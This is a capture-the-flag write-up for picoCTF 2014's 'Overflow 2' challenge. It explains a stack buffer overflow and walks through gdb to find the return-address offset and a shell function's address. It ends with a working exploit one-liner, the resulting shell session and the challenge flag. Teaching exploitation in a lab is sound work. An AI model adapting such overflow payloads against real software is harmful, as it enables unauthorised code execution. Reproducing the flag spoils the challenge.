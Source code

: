 ## Overflow 2 - 70 (Binary Exploitation) ##
#### Writeup by Oksisane

Created: 2014-11-11 23:19:09

Last modified: [2014-11-17 20:58:07](https://github.com/Oksisane/PicoCTF-2014-Writeups/commits/master/binary_exploitation/overflow_2.md)


### Problem ###

This problem has a buffer overflow vulnerability! Can you get a shell? You can solve this problem interactively [here](https://picoctf.com/problem-static/binary/Overflow2/overflow2.html), and the source can be found [here](https://picoctf.com/problem-static/binary/Overflow2/overflow2.c).

### Hint ###

How can you run the give_shell function?

## Answer ##

### Overview ###

Implement basic [ROP](http://en.wikipedia.org/wiki/Return-oriented_programming) to call `give_shell`.

### Details ###

I'm going to assume you are familiar with the basics of a buffer overflow. If not, read the write-up for [Overflow 1](overflow1.md).

Let's get started! In this problem we are going to learn how to use the basics of  [ROP](http://en.wikipedia.org/wiki/Return-oriented_programming) to control the flow of a program and call this function:
```c
/* This never gets called! */
void give_shell(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}
```
#####What makes this vulnerability possible
When we call `vuln()`, a `return address` is pushed onto the stack. This address tells the program what to do when it is finished executing the instructions defined inside `vuln()`. In our example:
```c
int main(int argc, char **argv){
    if (argc > 1)
        vuln(argv[1]);
    return 0;
}
```
The `return address` would point to `return 0;`, the next instruction after the call to `vuln`. By using the same sort of buffer overflow we did in `overflow 1` we can overflow our buffer into the memory containing the `return address` (the register that stores this is called `eip`). Then we can change the value of the return address to whatever we want (which will be the start of the `give_shell()` function in this case). Once the program is finished executing `vuln()` it will read our fake return address and jump to our shell!

Before we are finished we need a few pieces of information to actually execute the exploit. The first thing we need to know is how far up the stack to write. We can figure this out using `gdb`, a program debuging tool. This is how you start gdb in the shell:
```bash
pico89244@shell:~$ cd /home/overflow2/
pico89244@shell:/home/overflow2$ gdb overflow2
GNU gdb (Ubuntu 7.7-0ubuntu3.1) 7.7
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from overflow2...(no debugging symbols found)...done.
(gdb)
```
Next, we need to set the input to our program. To do this we type:
```bash
set args `python -c 'print "A"*30'`
```
Finally, we have to run the program in gdb. To do this we simply type `run`. You should see this output:
```bash
(gdb) set args `python -c 'print "A"*30'`
(gdb) run
Starting program: /home/overflow2/overflow2 `python -c 'print "A"*30'`

Program received signal SIGSEGV, Segmentation fault.
0x08004141 in ?? ()
(gdb)
```
See the return address, `0x08004141`? The `4141` are our A values! Since we overwrote half the address with 30 values of `A` as our argument, this tells us that `eip` occupies positions 28-32 above the base of our stack, or 12 above our 16 character buffer. In other words, by writing A*28 and then 1234, 1234 would be our new return address. Now that we know how to change `eip` all we need to know is what location we should change `eip` to. Still in gdb, we can find the address of the `give_shell()` function by running
```bash
(gdb) print &give_shell
$1 = (<text variable, no debug info> *) 0x80484ad <give_shell>
(gdb)
```
Nice! We now know `0x80484ad` is the address of `give_shell`.

With these two pieces of knowledge, let's exit gdb and construct our final exploit :
```bash
./overflow2  `python -c 'print "A"*28 + "\xad\x84\x04\x08"'`
```

We print `A` 28 times to write up the stack to `eip`, then `0x80484ad`(in little edian) to tell the function to jump to `give_shell`. Let's run it:
```
pico89244@shell:/home/overflow2$ ./overflow2  `python -c 'print "A"*28 + "\xad\x84\x04\x08"'`
$ whoami
pico89244
$ cat flag.txt
controlling_%eip_feels_great
```
Sure enough, this gives us our shell and the flag!
### Flag ###

    controlling_%eip_feels_great





